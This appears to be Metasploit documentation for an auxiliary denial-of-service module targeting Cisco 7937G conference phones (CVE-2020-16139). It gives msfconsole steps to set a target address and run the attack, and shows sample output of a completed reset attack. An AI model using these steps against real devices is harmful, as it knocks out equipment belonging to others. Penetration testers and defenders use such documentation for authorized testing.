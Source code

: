 ## Vulnerable Application

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable Web Access on the device (default configuration).
  3. It has been observed that based on the firmware available from Cisco, all version are likely vulnerable.

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/dos/cisco/CVE-2020-16139`
  3. Do: `set RHOST 192.168.1.10`
  4. Do: `run`
  5. The conference station should become inoperable and then power cycle itself.

## Options

  1. rhost (required) - Target addres

## Scenarios

Because both successful and unsuccessful attacks result in the request timing out, there
is no way to be sure that the attack was completed. It is recommended to attempt a ping
to the device immediately afterward to verify device is offline/reseting.

```
[*] Starting server...
[*] 192.168.110.209 - Sending DoS packets. Stand by.
[*] 192.168.110.209 - DoS reset attack completed!
[*] Auxiliary module execution completed
```
